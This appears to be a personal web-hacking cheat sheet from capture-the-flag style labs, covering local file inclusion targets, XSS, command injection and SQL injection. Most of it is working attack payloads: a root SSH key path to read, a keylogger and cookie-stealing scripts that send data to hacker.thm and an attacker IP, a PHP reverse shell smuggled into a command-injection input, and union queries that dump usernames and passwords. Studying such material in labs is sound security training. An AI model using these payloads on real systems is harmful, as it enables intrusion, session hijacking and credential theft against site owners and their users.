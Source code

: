|/root/.ssh/id_rsa|Private SSH keys for a root or any known valid user on the server|
|/var/log/apache2/access.log|the accessed requests for Apache  webserver|
|C:\boot.ini|contains the boot options for computers with BIOS firmware|

LFI - Steps for Testing
===
   1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
   2. Enter a valid input to see how the web server behaves.
   3. Enter invalid inputs, including special characters and common file names.
   4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
   5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
   6. Understand the input validation and if there are any filters!
   7. Try the inject a valid entry to read sensitive files


If the method is GET check if POST works & vice-versa: `curl -X POST http://10.10.14.112/challenges/chall3.php -d "method=POST&file=/etc/flag3%00" --output -`

XSS - Payloads
===
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
``` 
^--> keylogger for a website which takes all the info written by the user to the evil website 
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
--> session stealing
```

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
--> polyglot (aka wildcard)
```
</textarea><script>fetch('http://10.11.59.68:4444?cookie=' + document.cookie);</script>

```
--> cookie grabber

Command Injection
===
`127.0.0.1&&whoami` + `127.0.0.1&&cat /home/user/flag.txt`
[this](https://github.com/payloadbox/command-injection-payload-list) is a good cheat cheat
### fancier payloads:
got a reverse shell with `127.0.0.1&&php -r '$sock=fsockopen("10.11.59.68",4444);exec("/bin/sh -i <&3 >&3 2>&3");'` and could also start a python server with `127.0.0.1&&python3 -m http.server 8000` to easily download files

SQLi
===
### lvl 1
finding name of db = `0 union select 1, 2, database()`
finding name of tables = `https://website.thm/article?id=0 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_one';--`
--> results = sqli_one : _article_, _staff_users_
finding column names of table = `https://website.thm/article?id=0 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name = 'staff_users';--`
--> results = _id_,_password_,_username_
(for article its _content_,_id_,_subject_)
`https://website.thm/article?id=0 union select 1, username, password from staff_users;--`